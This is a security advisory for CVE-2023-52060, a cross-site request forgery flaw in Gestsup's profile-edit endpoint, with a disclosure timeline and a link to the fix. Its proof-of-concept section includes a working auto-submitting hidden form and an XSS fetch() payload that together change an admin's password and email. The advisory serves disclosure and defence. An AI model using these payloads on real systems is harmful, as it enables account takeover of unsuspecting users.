 # CVE-2023-52060

## Summary

| ID                    | CVE-2023-52060                                           |
|-----------------------|----------------------------------------------------------|
| **Type**              | CSRF                                                     |
| **Title**             | CSRF on profile's information change request             |
| **Product impacted**  | Gestsup                                                  |
| **Impacted version**  | < 3.2.46                                                 |
| **CVSS Score**        | 4.3                                                      |
| **Author**            | Sopalinge                                                |

## Description

A lack of CSRF protection in the request to edit a user's profile information in Gestsup < 3.2.46 allows attackers to perform a Cross-Site Request Forgery (CSRF) attack.

The `index.php?page=admin/user&action=edit&userid=1&tab=infos` endpoint can be exploited to craft a malicious POST request which can be used to trick users into unknowingly changing their information, including email address and password.


## Impact

An attacker could trick another user into unknowingly changing their password when visiting a malicious website. Note that the SameSite attribute is not defined which means that the behaviour will depend on the victim's browser.

Combined with [CVE-2023-52059](../CVE-2023-52059/README.md), it can be used to take over privileged accounts directly from the Gestsup application.


## Proof of concept
### CSRF

The following HTTP code can be hosted on a malicious website. A user tricked into visiting this page has a risk (depedning on multiple factors like the browser used) to have his password, email and function edited.

```
<form id="autosubmit" action="http://localhost:3010/gestsup/index.php?page=admin/user&action=edit&userid=1&tab=infos" method="POST">
    <input type="hidden" name="attachment" value="0" />
    <input type="hidden" name="language" value="fr_FR" />
    <input type="hidden" name="profile" value="4" />
    <input type="hidden" name="firstname" value="admin" />
    <input type="hidden" name="lastname" value="" />
    <input type="hidden" name="login" value="admin" />
    <input type="hidden" name="password" value="admin" />
    <input type="hidden" name="password2" value="admin" />
    <input type="hidden" name="mail" value="admin@example.com" />
    <input type="hidden" name="function" value="hacked" />
    <input type="hidden" name="modify" value="modify" />
    <input type="submit" value="Submit request" />
</form>
<script>
    document.getElementById("autosubmit").submit();
</script>
```



https://github.com/Tanguy-Boisset/CVE/assets/83412402/3bf74a94-c885-40f2-a13e-eda5334affc5



### XSS and CSRF

Using [CVE-2023-52059](../CVE-2023-52059/README.md) in the `Description` or `Resolution` fields, the following payload can be injected in the intercepted request to exploit the CSRF to change the pasword, email and function of any user viewing the ticket :

```
<img src=x onerror="fetch('./index.php?page=admin/user&action=edit&userid=1&tab=infos', {method: 'POST', headers: {'Content-Type':'application/x-www-form-urlencoded'},body: 'attachment=0&language=fr_FR&profile=4&firstname=admin&lastname=&login=admin&password=admin&password2=admin&mail=admin@example.com&function=hacked&modify=modify'})" />
```

https://github.com/Tanguy-Boisset/CVE/assets/83412402/69514524-4530-47b6-907e-0b593bd4e691


## Timeline

- 24/12/2023 : Vulnerability discovered
- 24/12/2023 : Vendor contacted
- 25/12/2023 : Official fix published
- 25/01/2024 : CVE ID attributed
- 12/02/2024 : CVE publicly disclosed


## References

- [Gestsup website](https://gestsup.fr/index.php?page=home)
- [Fixing patch](https://gestsup.fr/index.php?page=download&channel=beta&version=3.2.46&type=patch)

